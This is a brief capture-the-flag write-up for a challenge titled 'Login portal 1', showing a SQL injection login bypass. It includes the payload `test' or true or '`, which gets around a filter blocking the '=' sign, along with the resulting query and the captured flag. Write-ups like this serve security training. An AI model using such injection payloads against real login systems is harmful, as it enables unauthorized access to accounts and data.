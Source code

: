 # Login portal 1

## Solution

By submitting `test'` we receive the following error message:

```
Wrong username / password.
```

We then try `test' or '1'='1`:

```
Illegal characters detected.
```

After several trial we understand the `=` sign is detected as an illegal character. So we simply transform the above condition into `test' or true or '`

```
SELECT ... FROM ... WHERE username='test' or true or '' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|test' or true or '|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-4f885o1dal0q1huj6eaxuatcvn`